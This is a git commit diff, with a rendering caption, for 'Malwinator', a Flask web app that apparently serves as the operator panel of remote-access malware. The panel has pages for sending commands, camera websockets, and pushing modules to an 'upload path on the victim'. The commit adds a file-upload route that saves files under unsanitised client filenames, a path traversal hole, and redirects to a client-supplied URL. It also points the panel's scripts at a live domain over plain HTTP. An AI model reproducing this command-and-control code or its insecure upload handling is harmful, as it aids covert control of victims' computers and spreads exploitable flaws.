

Before and after one commit to MarioUta/Malwinator, a Flask app: template templates/upload.html in a window 1280 px wide. Shown: the top 615 px of the page, without its empty margins (121-1169 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Added file upload to the server

```diff
--- a/app.py
+++ b/app.py
@@ -1,4 +1,4 @@
-from flask import Flask, request, send_file, render_template
+from flask import Flask, request, send_file, render_template, redirect
 import os, time
 import threading
 from flask_socketio import SocketIO
@@ -239,6 +239,19 @@
         file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))
         return 'File successfully uploaded'
 
+@app.route('/upload_file', methods = ['POST'])
+def upload_file():
+  return_url = request.form['currentUrl']
+  if 'file' not in request.files:
+    return redirect(return_url)
+  file = request.files['file']
+  if file.filename == '':
+    return redirect(return_url)
+  if file:
+    filepath = os.path.join('./resources', file.filename)
+    file.save(filepath)
+    return redirect(return_url)
+
 # this is for the web sockets designed for camera access
 @socketio.on('connect')
 def handle_connect():
@@ -261,12 +274,12 @@
 
 
 # https server
-if __name__ == '__main__':
-  socketio.run(app, ssl_context=('/etc/letsencrypt/live/malwinator.chickenkiller.com/fullchain.pem', '/etc/letsencrypt/live/malwinator.chickenkiller.com/privkey.pem'), debug=False, host='0.0.0.0', port='8082')
+# if __name__ == '__main__':
+  # socketio.run(app, ssl_context=('/etc/letsencrypt/live/malwinator.chickenkiller.com/fullchain.pem', '/etc/letsencrypt/live/malwinator.chickenkiller.com/privkey.pem'), debug=False, host='0.0.0.0', port='8082')
 
 # http server
-# if __name__ == "__main__":
-#   socketio.run(app, host='0.0.0.0', port='5000')
+if __name__ == "__main__":
+  socketio.run(app, host='0.0.0.0', port='8081')
 
 # # localhost server
 # if __name__ == "__main__":
--- a/static/js/command.js
+++ b/static/js/command.js
@@ -1,6 +1,6 @@
-uri = "http://localhost:5000"
+// uri = "http://localhost:5000"
 // uri = "https://malwinator.chickenkiller.com"
-// uri = "http://malwinator.chickenkiller.com"
+uri = "http://malwinator.chickenkiller.com"
 function fetchResult(param) {
     path = "/getResult?id="+param;
     console.log(path);
--- a/static/js/download.js
+++ b/static/js/download.js
@@ -1,6 +1,6 @@
 // uri = "http://localhost:5000"
-uri = "https://malwinator.chickenkiller.com"
-// uri = "http://malwinator.chickenkiller.com"
+// uri = "https://malwinator.chickenkiller.com"
+uri = "http://malwinator.chickenkiller.com"
 
 setInterval(function() {fetchResult('download');}, 1000);
 
--- a/static/js/log.js
+++ b/static/js/log.js
@@ -1,6 +1,6 @@
 // uri = "http://localhost:5000"
-uri = "https://malwinator.chickenkiller.com"
-// uri = "http://malwinator.chickenkiller.com"
+// uri = "https://malwinator.chickenkiller.com"
+uri = "http://malwinator.chickenkiller.com"
 
 function sendCommand(command) {
     path = "/send"
--- a/static/js/upload.js
+++ b/static/js/upload.js
@@ -1,6 +1,6 @@
 // uri = "http://localhost:5000"
-uri = "https://malwinator.chickenkiller.com"
-// uri = "http://malwinator.chickenkiller.com"
+// uri = "https://malwinator.chickenkiller.com"
+uri = "http://malwinator.chickenkiller.com"
 
 setInterval(function() {fetchResult('upload');}, 1000);
 
--- a/templates/upload.html
+++ b/templates/upload.html
@@ -7,7 +7,6 @@
     <script src="{{url_for('static', filename='js/upload.js')}}" defer></script>
     <script src="{{url_for('static', filename='js/command.js')}}" defer></script>
 
-
 </head>
 <body>
   <div class="container">
@@ -15,6 +14,13 @@
 
     <p>Note: if you have a module already installed on the remote computer and you just want to add/update the
       path to it just put the new path (to the module's file on the machine not just the directory) and select the module without checking a file to be uploaded.</p>
+
+    <form class="form-left" action="/upload_file" method="POST" enctype="multipart/form-data">
+      <label for="file" class="upload-path-label">Choose file to upload to the server:</label>
+      <input type="file" id="file" name="file" class="upload-path-input">
+      <input type="hidden" id="currentUrl" name="currentUrl">
+      <button type="submit" class="btn">Upload File</button>
+    </form>
 
     <label class="upload-path-label">Files available:</label>
 
@@ -27,7 +33,7 @@
       {% endfor %}
     </fieldset>
 
-    <label class="upload-path-label">Upload path:</label>
+    <label class="upload-path-label">Upload path on the victim:</label>
     <input type="text" id="path" name="path_input" class="upload-path-input">
 
     <label class="upload-path-label">Module:</label>
@@ -45,6 +51,7 @@
   <script>
     ip = "{{ip}}"
     name = "{{name}}"
+    document.getElementById('currentUrl').value = window.location.href;
   </script>
 </body>
 </html>
```
